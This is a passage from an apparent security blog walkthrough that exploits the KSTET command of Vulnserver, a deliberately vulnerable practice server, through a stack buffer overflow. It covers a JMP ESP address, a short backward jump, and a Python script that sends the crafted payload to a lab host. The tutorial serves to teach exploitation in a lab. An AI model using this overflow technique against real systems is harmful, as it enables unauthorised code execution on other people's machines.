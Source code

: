 And check it:

<div class="imgblock">

![JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331198/blog/vulnserver-kstet-alternative/jmp1_rcg7tb.gif)

</div>

Great\! However, as you can see, we landed on a 20 bytes buffer where we
put the `C` chars, but we have 66 bytes above on the buffer of the `A`
chars.

<cta-banner
  buttontxt="Read more"
  link="/solutions/red-teaming/"
  title="Get started with Fluid Attacks' Red Teaming solution right now"
/>

With a short jump backward, we can easily jump to that place:

<div class="imgblock">

![JMP backwards](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331196/blog/vulnserver-kstet-alternative/jmp2_mgivno.gif)

</div>

The resultant bytes were `EB B5`. We can update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And check it:

<div class="imgblock">

![JMP backwards](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331196/blog/vulnserver-kstet-alternative/jmp3_abef43.gif)
